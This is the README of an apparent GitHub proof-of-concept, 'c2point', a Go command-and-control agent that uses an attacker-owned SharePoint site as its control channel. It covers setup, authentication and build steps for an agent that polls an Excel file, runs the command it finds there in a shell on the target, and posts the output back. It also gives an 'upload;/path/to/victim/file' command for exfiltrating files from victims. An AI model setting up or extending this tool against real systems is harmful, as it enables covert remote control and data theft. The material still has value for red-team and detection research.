 # c2point
c2point - Proof of Concept of a c2 structure in Go that uses Attacker-owned Azure Tenant (Sharepoint) as Command and Control.
This is a very simple project that aims to make the "agent" execute commands on target server from instructions written into an Online Excel file.

The agent will poll the attacker-owned SharePoint site, to retrieve the command into an Excel file and execute it.

Command result will be communicated to SharePoint via another excel file (Result)

## Workflow

![image](https://github.com/giovannicolonna/c2point/assets/10105061/f0f2fbac-4fe9-45fa-bccc-d02c33d9712d)


## Prerequisites
Global Admin on an Azure Tenant (if you have a lab, give it a try, set up your Developer Account in Microsoft to try O365 for free)


## Install Go: 
If you haven't already, download and install Go from the official website: https://golang.org/dl/. Follow the installation instructions for your operating system.

## Install dependencies: 
The program depends on several third-party packages, which can be installed using the following command:


```

go get github.com/koltyakov/gosip
go get github.com/koltyakov/gosip/api
go get github.com/koltyakov/gosip/auth/azurecert
go get github.com/tealeg/xlsx/v3

```



## Configure authentication: 

The program works with the support of a valid Azure Tenant with Sharepoint Online (Business subscription). According to Microsoft Documentation, set up your Azure environment to accept App-only access to an Azure app. You will need to register a new AAD Application and grant it to access SharePoint Online. 

Create a new Azure app and set up grants and certificate access as follows:

https://learn.microsoft.com/en-us/sharepoint/dev/solution-guidance/security-apponly-azuread

Replace the placeholder values in the private.json files

**Note that Cert Auth is the only Auth currently working with SharePoint online**

Here is an example of how to initialize private.json with the necessary fields for SharePoint Online authentication using Cert Auth as specified in GoSip Documentation (in this link you'll find script to generate self-signed cert): https://go.spflow.com/auth/strategies/azure-certificate-auth

```

{
	"siteUrl": "https://your-site.sharepoint.com/sites/your-site-name",
	"tenantId": "your-tenantid",
	"clientId": "your-clientid",
	"certPath": "cert.pfx",
	"certPass": "password"
}

```
Make sure to replace the placeholders (tenant-id, clientId, certPath and certPass) with the actual values for your SharePoint environment.
**Create a 'config' folder in same directory of your .go file and put inside it the private.json and the .pfx cert file**


## Update file path
  Update the file paths into the source code (see commented lines)
  
## Create your c2 file
  Create a new excel file on your sharepoint site that will act as c2 panel, update accordingly the variables in the code by pointing to right excel file (default name is yourcommand.xlsx)
  
**Commands must be inserted in the very first cell 0,0**

## Compile and run the program:
  Open a terminal or command prompt and navigate to the directory containing the c2point.go file. Run the following commands to compile and execute the program:

```

go build c2point.go
./c2point

```

If you're on Windows, the compiled executable will be named c2point.exe. In that case, run the following command instead:

```
GOOS=windows GOARCH=amd64 go build -o ./bin/c2point.exe c2point.go 

c2point.exe
```
## Usage

The program will read the instructions from the 0,0 Cell in Excel file and execute them as command-line commands on your machine. On Windows, the commands will be executed using the cmd.exe shell, while on Unix-based systems they will be executed using the /bin/bash shell.

**Only the first cell must be filled with the command at this time (further improvements will be possible :) )**

Note that - for now - cert.pfx file and private.json must be in same folder of the executable.

Insert command 

```
exitc2

```

in online excel c2 file order to remotely stop the agent.

## Data Exfiltration

Insert command:

```

upload;/path/to/victim/file

```

in order to upload files from target sytems:

![image](https://github.com/giovannicolonna/c2point/assets/10105061/79105667-0b9a-450a-b929-cbb66ab9d02d)



## Output
Check your Sharepoint site. A file (default: output.xlsx) will contain the output of your command.

**Note that a 15 seconds delay has been hardcoded in order to let the online docs be aligned **

## Further improvements
Many, this is a sort of experiment, nothing more than a PoC:
1) Avoid double excel and try to have all the commands history in one file
2) modify code in order to not have .pfx and .json in same folder of executable (embedded Auth in GOSip throws errors)
3) Usage of Graph API (Go support is still too much in early stage as per May 2023)
**Pull request as you like***

## Disclaimer 
This is a PoC, and the creator is not responsible for any illicit use of this. Please use it responsibly.



